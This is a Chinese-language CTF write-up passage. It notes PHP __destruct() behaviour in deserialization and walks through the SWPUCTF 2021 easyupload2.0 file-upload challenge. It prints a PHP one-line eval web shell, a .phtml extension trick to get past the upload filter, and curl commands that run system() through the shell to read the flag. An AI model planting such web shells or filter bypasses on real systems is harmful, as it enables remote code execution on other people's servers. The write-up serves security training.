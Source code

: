 **__destruct() 的核心特性**

**触发时机**

当对象的生命周期结束时（例如脚本执行完毕）。

当对象被显式销毁（如调用 `unset($obj)`）。

**反序列化场景** ：反序列化生成的临时对象会在脚本结束时触发 `__destruct()`。

**常见用途**

清理资源（如关闭数据库连接、释放文件句柄）。

在反序列化漏洞中，它是触发恶意代码的关键入口。

**与构造函数的对比**

`__construct()`：对象**创建时**调用（反序列化时不会触发）。

`__destruct()`：对象**销毁时**调用（反序列化时会触发）。

# 11.[SWPUCTF 2021 新生赛]easyupload2.0

进入一看这是一个文件上传的题目

![1743132923703](image/NSS/1743132923703.png)

尝试一句话木马(one.php)

```
<?php
@eval($_POST['cmd']);
?>
```

上传失败，提示php是不行的

修改后缀one.phtml                (php3，php5，pht，phtml，phps都是php可运行的文件扩展名)

修改后上传成功

然后想办法getshell

可以使用linux的bash命令行

```

curl -X POST -d "cmd=system("ls");"http://node4.anna.nssctf.cn:28791/upload/one.phtml
发现可以使用木马
curl -X POST -d "cmd=system("pwd")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("ls /")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("pwd")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("ls /app")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("cat /app/flag.php")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
得到flag
```

